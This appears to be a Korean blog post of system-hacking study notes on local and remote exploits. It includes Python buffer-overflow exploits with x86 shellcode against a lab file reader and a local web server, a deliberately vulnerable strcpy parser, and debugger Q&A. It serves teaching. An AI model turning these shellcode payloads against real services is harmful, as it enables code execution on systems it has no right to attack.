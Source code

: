 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디
---
```


### 170811 3주차

이번 시간에는 Exploit 분류에 대해 알아보겠다.

<br>
## Exploit 분류
<br>

Exploit은 취약점을 공격하는 코드다. 크게 원격에서 공격 가능한 Remote Exploit과 로컬 상에서 공격이 가능한 Local Exploit으로 분류할 수 있다.

<br>
### 1. Local Exploit
<br>

Local Exploit은 PC 혹은 서버 내부에서 실행하는 Exploit이다. 일반적으로 권한 상승 혹은 코드 실행을 위해서 사용한다. 인자값을 직접 입력해 주어야 하는 경우나 특정 파일을 통해 입력값을 전달하게 되므로 로컬 상의 권한을 이미 가지고 있는 경우이거나, 파일 실행 등의 조건이 필요하다.

예를 들어, 파일을 입력 받아 출력해 주는 간단한 프로그램이 있다고 하자. 이 프로그램의 경우, 문자열의 길이를 검사하지 않고 복사해주기 때문에 스택 버퍼오버플로우가 발생한다. 그렇다면, 이 취약점을 공격하는 코드는 아래와 같다.

```python
import struct

print "[+] Creat text file..."

nop = "\x90" * 100

shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7"

print "Shellcode Length :", len(shellcode)
dummy = "A"*(504-len(nop+shellcode))
buf = struct.pack('<L',0x12fd50)
contents = nop + shellcode + dummy + buf

f = open("test.txt","w")
f.write(contents)
f.close()
```

위 공격 코드를 실행하면 프로그램의 입력값인 텍스트 파일을 만들어주며, 이 프로그램에는 공격 성공 후 실행할 쉘코드가 입력되어 있다(*쉘코드란, 공격자가 실행하길 원하는 코드다. 일반적으로 다양한 악성 행위를 수행하도록 만들어짐*). 공격 코드를 실행하고 생성된 악성 파일을 인자값으로 프로그램을 실행하면 공격자가 원하는 코드가 실행되는 것을 확인할 수 있다. 윈도우 OS의 경우, 주로 직접 인자값에 입력하는 방식의 공격보다는 악성 파일을 이용한 공격이 주를 이룬다. **사용자에게 입력값을 받는 모든 프로그램은 취약점이 존재할 수 있다!**

<br>
### 2. Remote Exploit
<br>

Remote Exploit은 Local Exploit과 반대로 원격에서 이루어지는 공격이다. 원격에서 패킷을 보내 공격하므로 특정 포트를 열고 서비스를 제공하는 서버 프로그램이 타겟이 된다. 단순히 포트가 열려있으면 원격에서 공격을 당할 수 있기 때문에 Remote Exploit 공격은 대부분 치명적이다.

예를 들어, 간단한 웹 서버 프로그램이 있다고 하자. 이 프로그램에는 아래 코드와 같이 요청 패킷을 파싱하는 과정에서 경계값 검사를 하지 않는 **strcpy** 함수를 사용하여 버퍼오버플로우 취약점이 발생한다.

```c
int parse(SOCKET sock, char *buf) {
  char url[1000] = {0,};
  char send_buf[2000] = {0,};
  char * token = strtok(buf, " ");
  char * method = token;
  strcpy(url, token+(strlen(method)+1));
  printf("URL : %s\n", url);
}
```

아래 Exploit 코드는 원격에서 패킷을 보내는 Remote Exploit 코드다.

```python
import struct
from socket import *

nop = "\x90" * 200
shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7";

print "Shellcode Length :", len(shellcode)
dummy = "A"*(499-len(nop+shellcode))
#buf = struct.pack('<L',0x42424242)
buf = struct.pack('<L',0x00416124)
payload = nop + shellcode + dummy + buf

print " [+] Sending Packet..."
s = socket(AF_INET,SOCK_STREAM,0)
s.connect(('127.0.0.1',80))
s.send("GET /"+payload)
print s.recv(150)
s.close()
```

위 코드를 실행하면 원격에서 해당 웹 서버 프로그램을 공격하여 원하는 코드를 실행시킬 수 있음을 확인할 수 있다.

Remote Exploit은 원격에서 직접 공격이 가능하여 주로 서버에 접근 권한을 얻기 위한 1차 공격으로 많이 사용된다. Remote Exploit을 통해 서버의 일반 사용자 권한을 획득한 뒤, Local Exploit을 통해 추가 권한 상승을 시도하는 것이 일반적인 침투 절차이다.

<br>
## [질문 내용 정리]
<br>

- **CALL(Call a Procedure), RET 와 함수 에필로그 차이점?**

어셈블리어 중 CALL 명령어는 함수 호출 시 사용한다. JMP 명령어와 비슷하게 프로그램 실행 흐름을 변경하지만 다른 점은 되돌아오는 리턴 주소(*CALL 다음 명령*)를 스택에 저장한다. 함수 호출후 원래 위치로 실행 흐름을 되돌리고 나서 다시 프로그램이 실행될 수 있다. RET 명령어는 CALL 명령어로 호출한 함수의 주소를 EIP에 저장하고, CALL 명령어로 감소되었던(*ex: PUSH 명령어로 줄어든 ESP 4바이트*) 4바이트를 다시 4바이트 증가시킨다. 함수 에필로그는 CALL 명령어로 호출한 함수를 실행하고 나서, LEAVE(*POP EBP 해서 Base Pointer를 복구하는 과정*) 와 RET 명령어(*PUSH 명령어로 줄어든 4바이트를 다시 4바이트 확장시키는 과정*) 수행을 마치고 처음 호출한 지점으로 돌아가기 위해 스택을 복원하는 과정이다. 참고로, 방식은 함수 호출 규약에 따라 조금씩 다르다.

- **Back To User Mode?**

Back To User Mode는 OllyDbg로 특정 프로그램을 디버깅할 때, 한 이벤트가 발생하기 전에 이 모드를 설정한 뒤, Call 명령어가 수행되고 나서 바로 다음 위치를 잡을 수 있는 기능을 말한다.

> 1. 분석할 프로그램을 OllyDbg로 실행한다.
> 2. F9를 눌러 프로그램 실행시켜 특정 이벤트를 발생시킨다.
> 3. F12를 눌러 프로그램을 일시정지 상태로 둔다.
> 4. Alt+F9를 누르면 Back To User Mode가 설정된다.
> 5. 프로그램을 확인해보면 잠시 멈쳤다가 정상적으로 뜬다. 이 때 버튼 클릭이나 다른 이벤트를 수행한다.
> 6. OllyDbg가 자동으로 해당 이벤트 수행 부분에 커서가 이동된다.

- **인라인 코드 패치(Inline Code Patch)**

[실습 문제](http://blog.eairship.kr/303) 중간에 EBX가 4010F5, EDX에 0으로 값을 덮어씌우고 4010F5~401248에서 순차적으로 4바이트 단위로 값을 읽어온 뒤 ADD 연산을 왜 하는 지..? 그리고 그 다음에 OEP 코드가 나오고, API 함수 호출하는 부분에서 매개변수로 받을 때, MSDN 에서 매개변수가 몇 개인지, 각각 어떤 변수인지 확인했고.. 함수 호출 시 cdecl 규약(*C/C++ 언어의 기본 함수 호출 규약*)에 따라 역순으로 매개변수를 PUSH 하고 함수 호출한 뒤 이어지는 다음 라인에 스택을 정리한다. 40122C 주소의 4010F5 값이 DlgProc 즉, IpDialogFunc의 값이 된다.(*IpDialogFunc 는 다이얼로그 박스 프로시저를 가리키는 포인터 -> 주소*) 아직 더 공부해야 함..

- **main(), tmain(), wmain() 차이?**

main() 이라는 함수는 모든 C/C++ 프로그램의 실행이 시작되는 지점. 유니코드 프로그래밍 모델을 따르는 코드를 작성할 경우 main()의 와이드(Wide) 문자 버전인 wmain()을 사용할 수 있다. tmain()은 Visual Studio에서 Win32 콘솔 응용 프로그램 프로젝트를 생성하면 생기는 함수며 TCHAR.h에 정의되어 있다.
> #define tmain wmain

즉, tmain()은 wmain()과 같은 것이다. 그리고 tmain()은 사용했을 때 유니코드가 정의되어 있지 않으면 main()으로 인식하고, 유니코드가 정의된 경우에는 wmain()으로 인식한다.
